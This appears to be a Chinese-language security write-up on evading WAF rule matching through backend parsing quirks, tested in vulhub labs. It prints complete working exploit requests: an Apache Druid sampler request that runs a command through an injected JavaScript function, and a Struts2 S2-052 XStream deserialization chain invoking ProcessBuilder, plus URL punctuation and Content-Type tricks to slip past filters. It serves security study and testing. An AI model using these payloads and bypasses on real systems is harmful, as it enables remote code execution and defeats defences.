


# 基于后端特性的绕过

由于各类后端对字符的处理存在差异，因此在绕过时可以尝试一下字符的fuzz，本质还是以不影响后端解析的字符串打破规则匹配。

## apache

环境：vulhub/apache-druid

绕过方式：url中支持；而不影响解析

绕过点：

`/druid/indexer;/v1/sampler`

完整报文：

```
POST /druid/indexer;/v1/sampler HTTP/1.1
Host: 192.168.1.231:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 925

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"touch\",\"/tmp/successwa1ex\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```


## strust2

环境：vulhub/strust2-052

绕过方式：url中支持各类标点符号而不影响解析（多的我有点没想到

具体：`!/?;`

绕过点（例）：

`/orders!/3/edit`

完整报文：

```xml
POST /orders!/3/edit HTTP/1.1
Host: 200.1.2.2:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2420

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/successacf</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>

```

有个比较奇怪的地方是xml的标签值和文本内容理论上来说是支持html编码的，但这里的标签值并未支持，只能理解为strust2实现时没有顾及到这一点。


## Content-Type

相较于文档名来说属于是跑题了

绕过方式：Content-Type的值中支持0d

具体：



绕过点：同上

完整报文：同上一个报文，在上图位置插入0d即可。

题外话：之前在测类似的content-type时有过一个思路



但在这次的测试中换行会导致payload不可用，猜测有以下两种原因

1：后端因素：之前测试的目的是绕过sql注入测试，其后端为php站点，而这玩意是java。

2：Content-Type：Content-Type默认为www-urlencoded，因此导致在换行后仍然可以解析。

